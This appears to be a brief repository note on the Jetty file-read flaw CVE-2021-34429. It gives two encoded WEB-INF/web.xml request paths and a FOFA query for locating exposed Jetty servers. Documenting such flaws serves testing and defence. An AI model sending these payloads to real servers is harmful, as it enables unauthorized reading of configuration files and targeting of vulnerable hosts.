

# Jetty File Read (CVE-2021-34429)

/%u002e/WEB-INF/web.xml and /.%00/WEB-INF/web.xml After normalization and decoding, it will become /./WEB-INF/web.xml.

FOFA **query rule**: [app="Jetty"](https://fofa.so/result?qbase64=YXBwPSJKZXR0eSI%3D)

# Demo

